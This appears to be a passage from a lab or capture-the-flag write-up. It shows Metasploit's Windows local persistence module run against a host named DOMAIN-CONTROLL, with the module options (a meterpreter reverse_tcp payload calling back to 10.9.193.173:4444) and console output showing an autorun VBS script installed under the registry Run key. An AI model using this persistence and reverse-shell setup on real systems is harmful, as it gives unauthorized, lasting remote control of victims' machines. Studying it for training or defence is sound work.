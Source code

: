 using "exploit/windows/local/persistence"

"exploit/windows/local/persistence" output

``` txt
Global
======

No entries in data store.

Module: windows/local/persistence
=================================

Name                    Value
----                    -----
ContextInformationFile
DELAY                   10
DisablePayloadHandler   true
EXE::Custom
EXE::EICAR              false
EXE::FallBack           false
EXE::Inject             false
EXE::OldMethod          false
EXE::Path
EXE::Template
EXEC_AFTER              false
EXE_NAME
EnableContextEncoding   false
HANDLER                 false
LHOST                   10.9.193.173
LPORT                   4444
MSI::Custom
MSI::EICAR              false
MSI::Path
MSI::Template
MSI::UAC                false
PATH
PAYLOAD                 windows/meterpreter/reverse_tcp
REG_NAME
SESSION                 3
STARTUP                 USER
VBS_NAME
VERBOSE                 false
WORKSPACE
WfsDelay                2
```

This is the output of running `exploit/windows/local/persistence`. As you can see we add `iwIPTcY.vbs` to run during the next start. `iwIPTcY.vbs` contains a base64 encoded executable that will help getting a reverse shell when listening on the right port by sending a payload every 10 seconds.

``` txt
msf6 exploit(windows/local/persistence) > run

[!] SESSION may not be compatible with this module (missing Meterpreter features: stdapi_sys_process_set_term_size)
[*] Running persistent module against DOMAIN-CONTROLL via session ID: 3
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\iwIPTcY.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\xFgziBlM
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\xFgziBlM
[*] Clean up Meterpreter RC file: /home/fab1/.msf4/logs/persistence/DOMAIN-CONTROLL_20210923.3728/DOMAIN-CONTROLL_20210923.3728.rc
```
